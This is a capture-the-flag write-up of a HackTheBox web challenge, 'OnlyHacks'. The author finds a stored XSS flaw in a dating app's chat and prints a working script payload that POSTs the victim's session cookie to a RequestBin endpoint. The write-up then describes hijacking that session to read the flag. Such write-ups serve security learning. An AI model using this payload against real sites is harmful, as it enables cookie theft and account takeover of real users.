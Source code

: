 # OnlyHacks

**Category:** Web  
**Difficulty:** Easy  
**Platform:** HackTheBox

## Challenge Description

Dating and matching can be exciting, especially during Valentine's season, but it's important to stay vigilant for impostors. Can you help identify possible frauds?

## Initial Reconnaissance

![Stored XSS detected](./images/screenshot01.png)

Upon examining the application, I discovered that the chat field lacks proper input validation and supports rendering HTML tags. This vulnerability creates a potential location for a stored XSS (Cross-Site Scripting) attack.

## Exploitation

### Step 1: XSS Payload Testing

I used [RequestBin](https://requestbin.whapi.cloud/) to test the XSS vulnerability and generated a simple payload to steal cookies:

```html
<script>fetch("http://requestbin.whapi.cloud/ui3mf4ui",{method:"POST",mode:"no-cors",headers:{"Content-Type":"application/json"},body:JSON.stringify({cookie:document.cookie})});</script>
```

### Step 2: Cookie Harvesting

![Successfully captured victim's cookie](./images/screenshot02.png)

The payload successfully executed and captured the victim's session cookie, which was sent to my RequestBin endpoint.

### Step 3: Session Hijacking

Using the hijacked session token, I was able to impersonate the victim (Renata) and access their account. This allowed me to view the flag in a different chat conversation.

## Tools Used

- Browser Developer Tools
- RequestBin (for payload testing)
- Burp Suite (for request manipulation)

## Summary

[OnlyHacks has been Pwned](https://www.hackthebox.com/achievement/challenge/2245732/860)

The flag was obtained by successfully exploiting the stored XSS vulnerability and hijacking the victim's session.
